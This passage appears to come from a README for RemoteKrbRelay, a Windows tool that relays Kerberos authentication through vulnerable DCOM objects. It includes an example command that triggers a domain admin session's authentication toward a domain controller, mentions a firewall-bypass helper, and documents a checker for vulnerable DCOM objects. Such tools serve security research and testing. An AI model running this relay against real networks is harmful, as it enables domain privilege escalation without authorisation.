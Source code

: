 ```shell
# Trigger authentication from another session
  .\RemoteKrbRelay.exe -ldapwhoami -victim domainadminhost.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 1
```

# Details
Now, you have four folders in front of you:
- `Checker` - old version of the checker for detecting vulnerable DCOM objects;
- `Checkerv2.0` - new version of the checker for detecting vulnerable DCOM objects;
- `Exploit` - RemoteKrbRelay.exe :) 
- `FindAvailablePort` - a tool for bypassing a firewall when using an exploit. 

## Checker
So, let's start with Checker. You can use it to detect vulnerable DCOM objects. A vulnerable DCOM object can be considered to be:
- The COM server within which the DCOM object is running must be run as another user or as a system. But never as `NT AUTHORITY\LOCAL SERVICE`, since it uses empty creds to authenticate from the network;
- You must have `RemoteLaunch`, `RemoteActivation` permissions. This is [LaunchPermissions](https://learn.microsoft.com/ru-ru/windows/win32/com/launchpermission);
- Impersonation level should be `RPC_C_IMP_LEVEL_IDENTIFY` and higher. `RPC_C_IMP_LEVEL_IDENTIFY` is a default value;
- U should have `RemoteAccess` permissions (or they should be emply). This is [AccessPermission](https://learn.microsoft.com/ru-ru/windows/win32/com/accesspermission).

For easy detection, you can use Checkerv2.0. It supports output in csv and xlsx formats.
```shell
PS A:\ssd\Share\RemoteKrbRelay\Checkerv2.0\Checkerv2.0\bin\Debug> .\Checkerv2.0.exe -h

                            /\_/\____,          /\     /\
                  ,___/\_/\ \  ~     /            \ _____\
                  \     ~  \ )   XXX               (_)-(_)
                    XXX     /    /\_/\___,      Checkerv2.0 Collection
                       \o-o/-o-o/   ~    /
                        ) /     \    XXX
                       _|    / \ \_/
                    ,-/   _  \_/   \
                   / (   /____,__|  )
                  (  |_ (    )  \) _|
                 _/ _)   \   \__/   (_
                (,-(,(,(,/      \,),),)

                CICADA8 Research Team
                From Michael Zhmaylo (MzHmO)

Check.exe
Small tool that allow you to find vulnerable DCOM applications

[OPTIONS]
-outfile : output filename
-outformat : output format. Accepted 'csv' and 'xlsx'
-showtable : show the xlsx table when it gets filled
-h/--help : shows this windows
```
